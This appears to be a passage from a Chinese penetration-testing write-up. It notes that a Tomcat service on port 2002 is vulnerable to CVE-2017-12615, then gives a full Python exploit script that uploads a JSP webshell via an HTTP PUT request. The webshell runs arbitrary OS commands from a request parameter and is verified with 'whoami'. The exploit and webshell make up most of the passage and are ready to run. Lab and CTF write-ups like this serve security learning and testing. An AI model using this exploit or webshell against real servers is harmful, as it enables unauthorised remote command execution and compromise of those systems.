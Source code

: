 2002端口为tomcat，同样使用vulmap查看一下，发现存在CVE-2017-12615
![](https://img-blog.csdnimg.cn/16c3e5ee6ad5484bb39b5cff78c3b6bc.png)
直接使用exp上传webshell
```python
#!/usr/bin/env python
# coding:utf-8

import requests
import sys
import time

if len(sys.argv)!=2:
    print('+----------------------------------------------------------+')
    print('+ USE: python <filename> <url>                             +')
    print('+ EXP: python cve-2017-12615_cmd.py http://1.1.1.1:8080 id +')
    print('+ VER: Apache Tomcat 7.0.0 - 7.0.81                        +')
    print('+----------------------------------------------------------+')
    print('+ DES: 临时创建 Webshell exphub.jsp                        +')
    print('+----------------------------------------------------------+')
    sys.exit()
url = sys.argv[1]
payload_url = url + "/exphub.jsp/"
payload_header = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36"}

def payload_command (command_in):
    html_escape_table = {
        "&": "&amp;",
        '"': "&quot;",
        "'": "&apos;",
        ">": "&gt;",
        "<": "&lt;",
    }
    command_filtered = "<string>"+"".join(html_escape_table.get(c, c) for c in command_in)+"</string>"
    payload_1 = command_filtered
    return payload_1

def creat_command_interface():
    payload_init = "<%java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(\"cmd\")).getInputStream();" \
                "int a = -1;" \
                "byte[] b = new byte[2048];" \
                "while((a=in.read(b))!=-1){out.println(new String(b));}" \
                "%>"
    result = requests.put(payload_url, headers=payload_header, data=payload_init)
    time.sleep(5)
    payload = {"cmd":"whoami"}
    verify_response = requests.get(payload_url[:-1], headers=payload_header, params=payload)
    if verify_response.status_code == 200:
        return 1
    else:
        return 0

def do_post(command_in):
    payload = {"cmd":command_in}
    result = requests.get(payload_url[:-1], params=payload)
    print result.content

if (creat_command_interface() == 1):
    print "[+] Put Upload Success: "+payload_url[:-1]+"?cmd=id\n"
else:
    print("[-] This host is not vulnerable CVE-2017-12615")
```